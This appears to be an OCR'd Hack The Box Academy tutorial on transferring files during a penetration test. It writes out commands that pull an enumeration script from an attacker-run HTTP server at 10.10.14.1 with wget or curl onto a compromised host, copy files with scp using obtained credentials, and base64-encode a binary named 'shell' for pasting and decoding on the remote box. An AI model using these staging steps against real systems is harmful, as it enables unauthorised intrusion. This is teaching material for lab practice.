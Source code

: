 # Transferring Files

During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

---

# **Using wget**

There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

Transferring Files

```
xnoxos@htb[/htb]$ cd /tmpxnoxos@htb[/htb]$ python3 -m http.server 8000Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

Transferring Files

```
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]

```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

Transferring Files

```
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k

```

Note that we used the `-o` flag to specify the output file name.

---

# **Using SCP**

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

Transferring Files

```
xnoxos@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.shuser@remotehost's password: *********
linenum.sh

```

Note that we specified the local file name after `scp`, and the remote directory will be saved to after the `:`.

---

# **Using Base64**

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:

Transferring Files

```
xnoxos@htb[/htb]$ base64 shell -w 0f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU

```

Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:

Transferring Files

```
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

```

---

# **Validating File Transfers**

To validate the format of a file, we can run the [file](https://linux.die.net/man/1/file) command on it:

Transferring Files

```
user@remotehost$ file shellshell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

```

As we can see, when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:

Transferring Files

```
xnoxos@htb[/htb]$ md5sum shell321de1d7e7c3735838890a72c9ae7d1d shell

```

Now, we can go to the remote server and run the same command on the file we transferred:

Transferring Files

```
user@remotehost$ md5sum shell321de1d7e7c3735838890a72c9ae7d1d shell

```

As we can see, both files have the same md5 hash, meaning the file was transferred correctly. There are various other methods for transferring files. You can check out the [File Transfers](https://academy.hackthebox.com/module/details/24) module for a more detailed study on transferring files.